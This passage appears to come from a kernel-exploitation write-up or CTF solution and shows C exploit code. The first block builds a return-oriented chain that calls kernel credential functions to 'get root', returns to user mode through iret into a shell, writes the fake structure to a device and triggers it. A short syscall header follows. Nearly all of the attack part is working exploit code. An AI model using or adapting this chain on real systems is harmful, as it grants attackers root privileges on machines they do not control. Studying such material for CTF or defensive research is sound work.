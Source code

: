 ```c
	/* get root */
	((void**)fake)[x++] = POPRDI;
	((void**)fake)[x++] = 0;

	((void**)fake)[x++] = PKC;

	((void**)fake)[x++] = POPRCX;
	((void**)fake)[x++] = 0;
	((void**)fake)[x++] = MOVRDI;

	((void**)fake)[x++] = CK;


	((void**)fake)[x++] = RET; // breakpoint here
	((void**)fake)[x++] = IRET;
	((void**)fake)[x++] = 0xDEADBEEF; // rdi
	((void**)fake)[x++] = 0xCAFEBABE; // discarded

	/* iret: rip, cs, flags, stack, ss */
	((void**)fake)[x++] = shell;
	((void**)fake)[x++] = (void*)user_cs; // always 0x33
	((void**)fake)[x++] = (void*)user_rflags; // 0x200 is good enough
	((void**)fake)[x++] = (void*)fake; // reuse for stack
	((void**)fake)[x++] = (void*)user_ss; // always 0x2b

	DEBUG("[+] Upload structure to kernel\n");
	lseek(fdm, 0, SEEK_SET);
	write(fdm, fake, 0x3FF);
	write(fdm, buffer, sizeof(buffer));


	DEBUG("[+] Trigger payload\n");
	close(fdp);

	exit(0);
}
```

### syscall.h

```c
#define O_RDONLY 00
#define O_RDWR 02
#define SEEK_SET 0
#define SEEK_CUR 1
#define SEEK_END 2

int  open(char *path, int flags);
long lseek(int fd, long offset, int whence);
long read(int fd, char *buffer, unsigned long size);
long write(int fd, char *buffer, unsigned long size);
int  close(int fd);
void exit(int status);

int  socket(int af, int sol, int proto);
void pause(void);
int  execve(const char *path, const char** args, const char **envs);
int  fork();
//void shell(void);
void userloop(void);
```
